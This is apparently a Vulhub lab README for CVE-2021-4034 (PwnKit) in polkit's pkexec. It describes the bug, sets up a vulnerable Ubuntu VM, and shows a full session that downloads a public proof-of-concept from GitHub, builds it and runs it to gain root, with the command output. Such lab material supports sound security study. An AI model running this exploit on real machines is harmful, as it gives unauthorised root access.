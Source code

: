 # Polkit's `pkexec` Local Privilege Escalation Vulnerability (CVE-2021-4034)

[中文版本(Chinese version)](README.zh-cn.md)

Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. The pkexec application is a setuid tool that provided by Polkit, it is designed to allow unprivileged users to run commands as privileged users according predefined policies.

The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation giving unprivileged users administrative rights on the target machine.

References:

- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
- https://github.com/berdav/CVE-2021-4034

## Vulnerability Environment

> Note: Linux kernel is fixed the [`argc==0` bug](https://lwn.net/Articles/882799/) in this [commit](https://github.com/torvalds/linux/commit/dcd46d897adb70d63e025f175a00a89797d31a43), so Vulhub uses a Qemu virtual machine emulator to run a vulnerable Ubuntu 20.04, that contains polkit version 0.105. It required your system have at least 2G memory to run the environment.

You can run following command to start the Ubuntu 20.04 with polkit 0.105:

```
docker compose up -d
```

Because there is a virtual server running inside Docker container, you will need to wait longer until you see the success logs using `docker compose logs -f` like that:

```
cmd_1  | [  651.040963] cloud-init[1627]: Cloud-init v. 20.1-10-g71af48df-0ubuntu5 running 'modules:final' at Wed, 11 Jan 2023 14:57:10 +0000. Up 209.05 seconds.
cmd_1  | [  651.046024] cloud-init[1627]: ci-info: no authorized SSH keys fingerprints found for user ubuntu.
cmd_1  | [  651.049934] cloud-init[1627]: Cloud-init v. 20.1-10-g71af48df-0ubuntu5 finished at Wed, 11 Jan 2023 15:04:32 +0000. Datasource DataSourceNoCloud [seed=/dev/sdb][dsmode=net].  Up 650.90 seconds
cmd_1  | [  OK  ] Finished Execute cloud user/final scripts.
cmd_1  | [  OK  ] Reached target Cloud-init target.
```

![](1.png)

## Exploit

Firstly, use `ubuntu/vulhub` to login the target SSH server:

```
ssh ubuntu@192.168.1.163 -p2222
```

Use [this repository](https://github.com/berdav/CVE-2021-4034) to reproduce the CVE-2021-4034:

```
ubuntu@ubuntu:~$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
ubuntu@ubuntu:~$ cd /tmp/
ubuntu@ubuntu:/tmp$ wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
--2023-01-11 15:11:29--  https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main [following]
--2023-01-11 15:11:30--  https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main
Resolving codeload.github.com (codeload.github.com)... 20.205.243.165
Connecting to codeload.github.com (codeload.github.com)|20.205.243.165|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-gzip]
Saving to: ‘main.tar.gz’

main.tar.gz                                            [ <=>                                                                                                             ]   4.08K  --.-KB/s    in 0.003s

2023-01-11 15:11:30 (1.49 MB/s) - ‘main.tar.gz’ saved [4176]

ubuntu@ubuntu:/tmp$ tar -zxvf main.tar.gz
CVE-2021-4034-main/
CVE-2021-4034-main/.gitignore
CVE-2021-4034-main/LICENSE
CVE-2021-4034-main/Makefile
CVE-2021-4034-main/README.md
CVE-2021-4034-main/cve-2021-4034.c
CVE-2021-4034-main/cve-2021-4034.sh
CVE-2021-4034-main/dry-run/
CVE-2021-4034-main/dry-run/Makefile
CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c
CVE-2021-4034-main/dry-run/pwnkit-dry-run.c
CVE-2021-4034-main/pwnkit.c
ubuntu@ubuntu:/tmp$ cd CVE-2021-4034-main/
ubuntu@ubuntu:/tmp/CVE-2021-4034-main$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
ubuntu@ubuntu:/tmp/CVE-2021-4034-main$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd),1000(ubuntu)
```

![](2.png)

As you can see, I currently become a root user after exploits.
